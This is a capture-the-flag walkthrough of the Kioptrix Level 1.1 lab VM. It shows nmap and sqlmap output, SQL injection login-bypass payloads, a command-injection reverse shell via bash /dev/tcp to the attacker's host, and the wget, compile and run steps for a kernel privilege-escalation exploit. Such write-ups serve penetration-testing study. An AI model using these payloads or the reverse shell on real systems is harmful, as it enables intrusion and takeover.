 #  Kioptrix: Level 1.1 (#2)

## Recon & Enummeration

Nmap shows us 
```
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
..... etc etc
```


## Intitial Foothold

### SQL injection

We find a login page to the "Basic Administrative Web Console". We run sqlmap against it:

```
[13:15:27] [WARNING] POST parameter 'btnLogin' does not seem to be injectable
sqlmap identified the following injection point(s) with a total of 3223 HTTP(s) requests:
---
Parameter: psw (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: uname=admin&psw=-9096' OR 1599=1599 AND 'ewpR'='ewpR&btnLogin=Login

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (heavy query)
    Payload: uname=admin&psw=admin' AND 5541=BENCHMARK(5000000,MD5(0
```

We end up with the following POST request to login to the admin portal:


```
POST /index.php HTTP/1.1
Host: 10.10.10.6
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Origin: http://10.10.10.6
Connection: close
Referer: http://10.10.10.6/index.php
Upgrade-Insecure-Requests: 1

uname=admin&psw=' OR 'login'='login&btnLogin=Logins
```

### Command execution

Once we're in the portal we can enter an IP address to ping.
Assumed it's injectable a simple `; whoami` input tells us we run as user apache and we have code execution.

To drop the shell we submit: `; bash -i >& /dev/tcp/10.10.10.4/1234 0>&1`



## Privilege Escalation

Since the kernel is outdated we can find 2 different exploits in exploit db for this cent os version:

- `'sock_sendpage()' Ring0 Privilege Escalation`
- `'ip_append_data()' Ring0 Privilege Escalation`   

The `'ip_append_data()'` didn't wwork, therefore we chose to use the first exploit with success this time:

```
bash-3.00$ wget http://10.10.10.4:8000/9479.c
--19:30:51--  http://10.10.10.4:8000/9479.c
           => `9479.c'
Connecting to 10.10.10.4:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3,507 (3.4K) [text/x-csrc]

100%[========================================================================>] 3,507         --.--K/s             

19:30:51 (15.27 MB/s) - `9479.c' saved [3507/3507]

bash-3.00$ gcc -o exploit 9479.c 
9479.c:130:28: warning: no newline at end of file
bash-3.00$ ./exploit 
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
```
